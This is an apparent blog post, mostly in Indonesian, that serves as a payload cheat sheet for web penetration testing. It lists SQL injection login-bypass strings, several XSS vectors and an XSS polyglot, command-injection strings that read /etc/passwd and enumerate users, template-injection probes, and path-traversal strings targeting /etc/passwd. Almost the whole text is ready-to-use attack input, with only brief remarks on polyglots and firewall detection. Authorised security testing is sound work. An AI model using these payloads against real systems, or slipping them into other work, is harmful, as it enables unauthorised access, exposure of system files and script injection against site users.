 ```yaml
---
title: Payloads for Security Researchers
excerpt: Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem.
date: 2025-03-31 01:37:00
tags: [securityresearcher]
categories:
  - [Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/yublueflower.jpg
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337yublueflower.jpg
---
```


Ini adalah bagian dari instruksi yang dieksekusi untuk mengeksploitasi kerentanan dalam sistem. 

**Payloads for SQL Injection Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**Payloads for Cross-Site Scripting**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```polyglots
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Payloads for Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**Payloads for Server-Side Template Injection**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Payloads for Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Ini telah disesuaikan untuk peneliti keamanan melakukan pengujian kerentanan yang lebih luas dan mendalam.
